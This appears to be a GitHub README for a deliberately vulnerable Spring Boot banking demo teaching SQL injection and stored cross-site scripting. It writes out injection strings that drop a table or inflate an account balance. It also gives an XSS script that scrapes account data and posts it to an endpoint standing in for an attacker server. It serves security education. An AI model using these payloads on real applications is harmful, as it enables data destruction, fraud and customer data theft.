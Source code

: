 # Common Security Vulnerability Demo

The purpose of this application is to illustrate some common security vulnerabilities in web applications. Understanding how these exploits work is critical in being able to defend against them. 

## Application Setup

This application runs in two different modes: 
* Secure - proper protections and being used to mitigate the attacks
* Insecure - the application is exposed to attacks

To run it in either mode, use the spring profile field when starting the app as follows
`mvn spring-boot:run -Dspring.profiles.active=insecure`

Currently, the application illustrates the following vulnerabilities
* SQL Injection
* Stored Cross-site scripting (XSS)

## SQL Injection

To exploit this vulnerability, log in as a customer and inject SQL into the first name field as follows

`'; SQL Here; --`

For example:
`' DROP TABLE customer; --`
`' UPDATE bank_account SET balance=999999999 WHERE customer_id=1; --

Defending against this vulnerability can be done at multiple levels
* Hibernate ORM
* Input validation

## Cross-site scripting

To exploit this vulnerability, log in as a customer and inject the following javascript into the first name field as follows

`<script type="text/javascript">$(document).ready(function(){var accountInfo="";$("table").children("tbody").children("tr").each(function(){$(this).children("td").each(function(){accountInfo=accountInfo+";"+$(this).text();});});$.post("http://localhost:8080/receive-hack", {accountInfo:accountInfo});});alert("hacked");</script>`

This attack will allow a malicious user to inject a script into the database that then will run on the employee level and expose customer details to an external web server controlled by the malicious user. In this case, it is simply the same app server as is running, but this would be different in a real attack.

Defending against this vulnerability can be easily done at multiple levels
* Validating user input 
* Encoding any dynamic output on the page

